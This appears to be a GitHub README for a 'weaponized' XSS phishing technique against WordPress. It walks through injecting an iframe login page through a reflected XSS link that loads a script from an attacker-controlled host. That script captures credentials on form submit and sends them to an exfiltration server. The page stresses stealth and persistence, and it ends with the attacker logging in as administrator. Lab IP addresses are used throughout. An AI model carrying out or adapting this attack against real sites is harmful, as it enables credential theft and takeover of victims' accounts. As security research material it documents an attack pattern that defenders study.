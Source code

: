 # [Phish] Iframe Login Page

* **NOTES**:
  * stealthy
  * persistent
    * exploit stays active:
      * upon failed login
      * upon logout (i.e. login ➔ logout)
    * exploit will remain active until victim's web browsers cache is cleared
  * avoids excessive log spam
    * exploit exfiltrates credentials only on submit form event (logs both successful and failed authentication attempts)

## Test Environment

### Web Browsers (20250426)

* [x] Mozilla Firefox 137.0.2 (64-bit)
* [x] Google Chrome 135.0.7049.115 (64-bit)
* [x] Microsoft Edge 135.0.3179.98 (64-bit)

## Exploitation Steps

1. [test target login page] navigate to target application in web browser

    http://192.168.5.10

2. [test target login page] confirm target login is iframe-able

    *(open developer console and execute following code)*

    ```
    const url = "http://192.168.5.10/wp-login.php";
    const req = new XMLHttpRequest();
    req.open("GET", url, false);
    req.send(null);
    console.log("Endpoint: " + url + "\nX-Frame-Options (response header): " + req.getResponseHeader("X-Frame-Options"));
    ```

    * **NOTE**: default install value: `SAMEORGIN` (vulnerable)

3. [setup exploit] change payload variable values (`phishLoginWP.js`)

    `exfilWebServer` - web server URL for credential exfiltration

    `wpRoot` - path to WordPress installation on the target system (e.g. `"/wordpress"`)

4. [setup exploit] setup web server (to serve the payload)

5. [social engineering attack] victim user clicks link

    ```
    http://192.168.5.10/rxss.php?q=<script src=http://192.168.5.5/phishLoginWP.js></script>
    ```

    * **NOTES**:
      * `192.168.5.10` - target WordPress site
      * `192.168.5.5` - web server hosting payload

6. [social engineering attack] victim user authenticates

    *(attacker obtains credentials)*

8. [post exploit] attacker logs into target WordPress site using obtained credentials

    http://192.168.5.19/administrator/

## Screenshot

* **NOTE**: the screenshot covers steps 3 to 6 from the "Exploitation Steps" chapter

<p align="center">
  <kbd>
    <picture>
      <source media="" srcset="https://github.com/lighthouseitsecurity/weaponizedXSS/raw/main/CMS/WordPress/IframeLogin/screenshots/WordPress_-_iframe_login_-_1-1.png">
      <img src="https://github.com/lighthouseitsecurity/weaponizedXSS/raw/main/CMS/WordPress/IframeLogin/screenshots/WordPress_-_iframe_login_-_1-1.png">
    </picture>
  </kbd>
</p>

## Video

https://github.com/user-attachments/assets/c2302029-d0ef-4450-b726-09add6cdaf2f
